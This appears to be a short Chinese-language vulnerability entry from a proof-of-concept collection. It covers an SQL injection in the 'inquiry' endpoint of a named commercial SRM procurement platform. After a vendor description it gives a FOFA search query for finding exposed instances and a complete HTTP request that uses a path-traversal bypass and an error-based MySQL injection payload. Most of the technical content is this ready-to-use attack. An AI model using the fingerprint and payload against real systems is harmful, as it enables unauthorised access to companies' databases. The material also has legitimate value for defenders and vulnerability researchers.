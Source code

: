 # SRM智联云采系统inquiry存在SQL注入漏洞
智互联(深圳)科技有限公司SRM智联云采系统针对企业供应链管理难题，及智能化转型升级需求，智联云采依托人工智能、物联网、大数据、云等技术，通过软硬件系统化方案，帮助企业实现供应商关系管理和采购线上化、移动化、智能化，提升采购和协同效率，进而规避供需风险，强化供应链整合能力，构建企业利益共同体。智互联(深圳)科技有限公司SRM智联云采系统inquiry存在SQL注入漏洞。

## fofa
```
title=="SRM 2.0"
```

## poc
```java
GET /adpweb/static/%2e%2e;/a/srm/inquiry/getSuppliers?code=1%27+AND+GTID_SUBSET%28CONCAT%280x7e%2C%28SELECT+md5%281234%29%29%2C0x7e%29%2C7973%29--+WkOF&name=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip
```

![image-20241120093233440](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411200932557.png)

